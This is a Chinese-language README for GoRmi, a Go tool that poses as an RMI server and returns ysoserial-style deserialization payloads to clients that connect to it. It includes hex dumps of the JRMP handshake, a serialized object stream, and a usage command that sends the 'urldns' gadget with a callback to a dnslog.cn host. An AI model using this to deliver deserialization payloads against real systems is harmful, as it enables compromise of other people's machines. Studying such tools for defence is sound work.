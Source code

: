 # GoRmi

## 介绍

该项目是通过go语言实现防止rmi利用被反置的问题。[反序列化小子捕获器-反制ysoserial](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098663&idx=1&sn=fc048826005d4786ab56679861b1c43d&chksm=803c66aeb74befb88fc8e2f5e51853f33cc207ceaa1208936b1d9892a77cf3bdeb33b884f6b1&mpshare=1&scene=23&srcid=12291XhDYwX8icWSjvPyf5zl&sharer_sharetime=1640758586260&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

通过简单的协议分析。

![image-20211230010433011](img/image-20211230010433011.png)

```java
client--->server
    4a524d4900024b
    length:7
Header:
    0x4a 0x52 0x4d 0x49 Version Protocol
Version:
    0x00 0x01
Protocol:
    StreamProtocol
    SingleOpProtocol
    MultiplexProtocol
StreamProtocol:
    0x4b
SingleOpProtocol:
    0x4c
MultiplexProtocol:
    0x4d
    
server--->client
	4e00093132372e302e302e310000xxxx  随机 为客户端的随机port
	length:16
	4e 长度 服务端的主机名 随机port
	
client--->server
	000b 31302e32332e37312e3334 00000000      11	
	前面2个字节是后面ip的长度16进置
	xx ip xxxx
	length:17
(yso中带的)
50aced00057722000000000000000000000000000000000000000000000000000144154dc9d4e63bdf
length:41
	
server--->client
51aced0005770f01e4d810120000017e0572075e8004757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b470200007078700000000274000c48656c6c6f5365727669636574001270776e656433373233303338373837303030

client--->server
52

server--->client
53

client--->server
恶意数据
```

## 使用

在cli文件夹中进行编译，然后就可以利用

```
GoRmi.exe --ip 127.0.0.1 --port 9001 --payload urldns  --cmd "http://wb72qk.dnslog.cn"
```

项目中是通过二进制数据实现的gadgets，所以有一部分gadget不好构造(太懒了)，所以就没有全部完成。感兴趣的师傅可以进行pr操作。

谢谢！！！

## 特别说明

因为自己不擅长go语言，所以参考了大哥4ra1n的[Gososerial](https://github.com/EmYiQing/Gososerial)项目，并且在atao大哥的帮助下完成了该项目。

可能你感觉代码写的非常垃圾，确实是这样的，不过还是希望帮助到你。

## 最后
**如果感觉不错，希望给出你宝贵的star。**
